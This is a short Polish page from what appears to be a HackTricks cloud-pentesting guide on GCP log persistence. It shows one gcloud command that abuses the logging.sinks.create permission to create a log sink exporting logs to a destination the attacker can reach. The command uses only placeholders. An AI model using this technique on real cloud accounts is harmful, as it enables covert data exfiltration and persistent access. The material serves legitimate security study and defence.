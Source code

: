 # GCP - Utrzymywanie logów

{{#include ../../../banners/hacktricks-training.md}}

## Logowanie

Znajdź więcej informacji o logowaniu w:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Utwórz zlew, aby wyeksportować logi do miejsca dostępnego dla atakującego:
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
